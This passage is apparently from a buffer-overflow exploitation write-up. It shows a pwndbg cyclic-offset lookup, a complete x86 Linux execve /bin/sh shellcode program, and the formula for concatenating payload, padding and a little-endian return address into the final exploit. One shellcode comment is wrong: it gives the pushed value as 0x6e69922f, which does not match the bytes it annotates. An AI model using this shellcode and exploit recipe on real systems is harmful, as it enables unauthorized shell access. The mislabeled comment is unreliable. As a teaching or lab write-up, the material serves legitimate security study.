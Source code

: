 ```shell
pwndbg> cyclic -l uaaa
Finding cyclic pattern of 4 bytes: b'uaaa' (hex: 0x75616161)
Found at offset 80
```

### The Payload

A `shellcode` is a sequence of instructions, often written in assembly language, designed to be executed directly by a
computer's processor. We look for a `shellcode` that spawns a shell and that is compatible with our machine architecture.
We find one that it works, and we use it as our payload (https://shell-storm.org/shellcode/files/shellcode-575.html)

```c
/* execve /bin/sh - x86/linux - 21 bytes . zeroed argv[] / envp[]
  ipv#oldschool@irc.worldnet.net ipv#backtrack-fr@irc.freenode.org
  thanks : `ivan, milo, #oldschool crew
*/

int main(){

char sc[] = "\x6a\x0b" // push byte +0xb
"\x58" // pop eax
"\x99" // cdq
"\x52" // push edx
"\x68\x2f\x2f\x73\x68" // push dword 0x68732f2f
"\x68\x2f\x62\x69\x6e" // push dword 0x6e69922f
"\x89\xe3" // mov ebx, esp
"\x31\xc9" // xor ecx, ecx
"\xcd\x80"; // int 0x80

((void (*)()) sc)();
}

/*
sc[] = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
*/
--
ipv
```

## Crafting the Exploit

We craft the final exploit by concatenating the payload, padding to fill the rest of the buffer, and the return address,
which points to our exploit in the heap. The return address must be in little-endian format, so we reverse the bytes.

exploit = payload + padding + return_address

exploit = payload + "A" * (offset - len(payload)) + return_address
